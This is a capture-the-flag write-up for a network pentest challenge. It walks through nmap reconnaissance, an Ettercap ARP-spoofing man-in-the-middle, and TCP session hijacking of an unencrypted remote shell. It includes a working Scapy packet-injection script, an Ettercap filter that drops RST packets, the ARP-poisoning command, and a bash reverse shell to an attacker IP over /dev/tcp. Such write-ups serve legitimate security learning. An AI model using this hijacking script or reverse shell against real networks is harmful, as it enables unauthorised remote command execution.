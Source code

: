 ```yaml
---
description: >-
  Unencrypted remote shell leads to TCP session hijacking and RCE through
  man-in-the-middle (MITM) attack
---
```


# Shell Boi

## Challenge

He sells linux shells on the shell store.

**Author:** [f4lcon](https://twitter.com/theevilsyn)

## Solution

### Reconnaissance

When scanning the network, I found that only 172.30.0.5 and 172.30.0.8 were up. However, no ports seemed to be open.

Port 1337 on 172.30.0.5 was "open", but the service closes the connection immediately after the handshake is completed.

```
Nmap scan report for 172.30.0.5
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE    VERSION
1337/tcp open  tcpwrapped
MAC Address: 02:42:1D:65:54:70 (Unknown)
```

172.30.0.8, on the other hand, had no open ports.

This is weird, the category was "Network Pentest"! Anyway, I theorized that perhaps 1337 was indeed open, but the firewall blocks anyone other than 172.30.0.8 from accessing the service?&#x20;

### Man-in-the-Middle

Well, what better way to test this theory than to sniff the traffic? I tried using Ettercap to perform a man-in-the-middle between 172.30.0.5 and 172.30.0.8, and it worked! There were no defences in place, and I could now sniff the traffic between them.

Filtering the traffic on port 1337, we can see quite a lot of connections. Let's start with following one of those connections:

![](<../../.gitbook/assets/image (56).png>)

172.30.0.8 is sending the following base 64 encoded message to 172.30.0.5, on port 1337:

![](<../../.gitbook/assets/image (58).png>)

The two lines translate to 172.30.0.8 and 34599 respectively.

Hm... filtering the traffic on port 34599, some interesting traffic appears:

![](<../../.gitbook/assets/image (59).png>)

Okay, now we understand what is happening.

* 172.30.0.8, the client, sends a request to the server in the form of a base 64 encoded message specifying the receiving IP address and port number.
* 172.30.0.5, the server, upon receiving the request, sends an unencrypted shell to the specified IP address and port number.

### Hijacking the Session

Essentially, we need to intercept the TCP connection, and spoof a response containing our custom command to the server. This is called **TCP session hijacking**, which builds on top of a MITM attack. The idea is that we have to calculate the correct SEQ and ACK numbers, in order to spoof a packet as the client.

In a TCP connection, if invalid SEQ numbers are received, the receiver simply discards the packets. Initial sequence numbers (ISNs) are thus randomised, preventing SEQ numbers from being predicted. Arbitrarily injected packets by an attacker "guessing" the SEQ number would therefore be likely to have invalid SEQ numbers. ****&#x20;

However, if an attacker is able to achieve a man-in-the-middle attack, it would be trivial to obtain the relevant SEQ numbers of TCP packets transmitted between two nodes.

![](https://lh5.googleusercontent.com/22lSaL0ogOMcs18PYt33A84ORcf7JXfuyD\_ZYwTBAw5y5u\_vyCwNDpZQfxKgP63YvD9-X2\_bZSC\_1EQxnu1AP0IhYPXIsD-d\_YY5go8SPTZDiZGGo4R53qMm6KMmHjZVwn1H68Nr)

The following script implements this (this script is run _after_ first establishing a MITM using Ettercap - we could also use Scapy to implement the MITM, but it gets really messy and Scapy faces its own limitations too).&#x20;

```python
from scapy.all import *
import argparse
import global_vars


def sniff_parser(packet):
    if IP in packet:
        print(packet.summary())


def sniffer_thread(callback, pkt_filter, iface):
    while True:
        sniff(
            prn=callback,
            filter=pkt_filter,
            count=1,
            iface=iface
        )


def forge_response(p, command):

	print(f"Received: SEQ {p[TCP].seq}, ACK {p[TCP].ack}, Payload {p[TCP].payload}")

	ip_total_len = p[IP].len
	ip_header_len = p[IP].ihl * 32 // 8
	tcp_header_len = p[TCP].dataofs * 32 // 8
	tcp_seg_len = ip_total_len - ip_header_len - tcp_header_len

	# Send command to server
	cmd_ether = Ether(src=p[Ether].dst, dst=p[Ether].src)
	cmd_ip = IP(src=p[IP].dst, dst=p[IP].src)
	cmd_tcp = TCP(sport=p[TCP].dport, dport=p[TCP].sport, seq=p[TCP].ack, ack=p[TCP].seq + tcp_seg_len, flags="PA")

	command = command + '\r\n'
	cmd = cmd_ether / cmd_ip / cmd_tcp / command

	return cmd
	

def hijack(p):

	data = str(p[TCP].payload)
	print("Received:", data)
	
	if 'root' not in data:
		return
		
	cmd = forge_response(p, global_vars.CMD)
		
	print('Spoofed command: ', cmd[TCP].payload)

	print("[+] Executing command...")
	sendp(cmd, verbose=0, iface=global_vars.IFACE)

	# sys.exit(0)


def main():
    
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-i', '--interface', default=conf.iface, help='Interface to use.'
    )

    parser.add_argument(
        'client', help='Client IP address.'
    )
    parser.add_argument(
        'server', help='Server IP address.'
    )

    parser.add_argument(
        'cmd', help='A command to execute.'
    )

    args = parser.parse_args()

    global_vars.MY_MAC = get_if_hwaddr(args.interface)
    global_vars.MY_IP = get_if_addr(args.interface)
    global_vars.IFACE = args.interface
    global_vars.CMD = args.cmd
    
    pkt_filter = f"src host {args.server} and tcp"
    
    sniffer = Thread(target=sniffer_thread, args=(hijack, pkt_filter, global_vars.IFACE))
    sniffer.start()


if __name__ == '__main__':
    main()

```

One small problem, though. When the client (172.30.0.8) sends an RST, the connection is closed before we get a chance to send our spoofed command! To get around this, I used the following Ettercap filter to drop the RST and RST, ACK packets.

```c
if (ip.src == '172.30.0.8') {
	if (tcp.flags == 4 || tcp.flags == 20) {
		drop();
		msg("Filter Ran.\n");
	}
}	
```

The syntax for running Ettercap with the filter is:

`ettercap -T -q -i tap0 -F shellboi.ef -M ARP /172.30.0.5\;172.30.0.8///`

Now, we can run the Python script and specify our desired command. Our command is `bash -c "bash -i >& /dev/tcp/172.30.0.14/1337 0>&1"`, which sends a reverse shell from the server to us.

![](../../.gitbook/assets/upload\_c478bfc59bf91c2651693ff0c0c0745e.png)

The next time that a shell is sent to the client, our script will intercept the traffic and send the reverse shell payload to the server, allowing us to catch a shell, and obtain the flag.

![](<../../.gitbook/assets/image (61).png>)

The flag is `inctf{Ha!Security_1s_4_my7h!!!}`.

_And that, everyone, is why we use SSH instead of Telnet._

### On Hindsight...

There was an easier way to solve this. After performing the ARP spoofing attack using Ettercap, we could have just forged the base 64 encoded request, specifying the IP address and port of our choice to receive the shell (no scripting required?).&#x20;

But hey, this was more fun, and probably more realistic!
